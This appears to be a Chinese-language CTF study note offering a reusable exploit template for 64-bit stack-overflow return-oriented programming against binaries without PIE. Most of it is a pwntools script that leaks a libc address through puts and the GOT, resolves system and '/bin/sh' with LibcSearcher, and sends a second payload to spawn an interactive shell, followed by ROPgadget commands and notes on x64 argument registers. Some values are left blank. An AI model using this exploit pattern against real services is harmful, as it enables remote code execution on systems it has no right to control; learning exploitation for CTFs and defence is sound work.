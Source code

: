```yaml
---
title: "64位栈溢出rop模板(无PIE)"
date: 2021-07-12T17:35:19+08:00
draft: true
---
```


# 		64位栈溢出rop模板（无PIE）

## exp模板

```python
#!usr/bin/env python
#coding=utf-8
from pwn import *
from LibcSearcher import *

context.log_level = 'debug'
#p = process("./")
p = remote("",)
elf = ELF("./")

read_got = elf.got['read']
puts_plt = elf.plt['puts']
main_addr = 
pop_rdi = 
#************泄露got*********
payload = b'a'*() + p64(pop_rdi) + p64(read_got)
payload+= p64(puts_plt) + p64(main_addr) 
#payload = payload.ljust(200,'b')
p.sendline( payload)
p.recvuntil('')
read_addr = u64(p.recvuntil('\x0a')[:-1].ljust(8, '\x00'))
print hex(read_addr)
#*****************************
#***********搜索libc，寻址*******
libc = LibcSearcher("read",read_addr)
offset = read_addr - libc.dump("read")
sys_addr = offset + libc.dump("system")
bin_sh_addr = offset + libc.dump("str_bin_sh")
#***************************
#************get shell************
payload1 = b'a'*(0x40+8) + p64(pop_rdi) + p64(bin_sh_addr) 
payload1+= p64(sys_addr) 
payload1 = payload1.ljust(200,'b')

p.sendline(payload1)

p.interactive()

```

## ROPgadget

ROPgadget --binary rop  --only 'pop|ret' | grep 'eax'
查找可存储寄存器的代码

 ROPgadget --binary rop --string "/bin/sh"
查找字符串

ROPgadget --binary rop  --only 'int'
查找有int 0x80的地址

## 64位传参

对于x64体系结构，如果函数参数不大于6个时，使用寄存器传参，对于函数参数大于6个的函数，前六个参数使用寄存器传递，后面的使用栈传递。参数传递的规律是固定的，即前6个参数从左到右放入寄存器: rdi, rsi, rdx, rcx, r8, r9，后面的依次从 “右向左” 放入栈中。